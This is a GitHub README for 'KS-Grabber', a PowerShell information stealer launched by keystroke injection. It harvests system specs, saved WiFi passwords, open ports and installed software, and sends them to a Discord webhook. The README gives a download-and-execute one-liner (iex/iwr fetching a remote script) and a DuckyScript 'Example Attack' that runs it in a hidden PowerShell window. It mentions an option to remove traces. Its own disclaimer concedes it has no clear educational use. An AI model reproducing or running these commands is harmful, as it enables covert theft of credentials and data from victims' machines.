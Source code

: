 # ✨ KS-Grabber

KS-Grabber is a keystroke injection grabber that is fully modular and developed with PowerShell. This script allows you to collect information from various sources and send it to a webhook.

## Functions

Gather PC Specs
Gather WiFi profiles and it's passwords
Gather Open Ports
Gather Installed Softwares


## Usage

Run the following command in PowerShell to execute KS-Grabber:

```powershell
$hookurl = '<webhook goes here>'
iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content
```

## Configuration

Before running the script, you need to configure the boolean variables that enable the grabber modules. Open the script and set the following variables:

```powershell
$gatherPcData = $true  # Gather PC data
$gatherWifiProfiles = $true  # Gather WiFi profiles
$gatherOpenPorts = $true  # Gather open ports
$removeTraces = $true  # Remove traces
```

**WARNING:** It is mandatory to configure the webhook correctly. Replace the value of the `$hookurl` variable with your webhook:

```powershell
$hookurl = "https://discord.com/api/webhooks/wompwomp"
```

Otherwise, the script will not work!

## Example Attack

Here is an example attack using the grabber:

```plaintext
GUI r
DELAY 1000
STRING cmd
ENTER
DELAY 1000
STRING powershell -windowstyle hidden -command "$hookurl = '<webhook goes here>'; iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content"
ENTER
```
### ⭐ Made for educational purposes (even though I don't know how it can be used in an educational way), I am not responsible for how this tool is used.
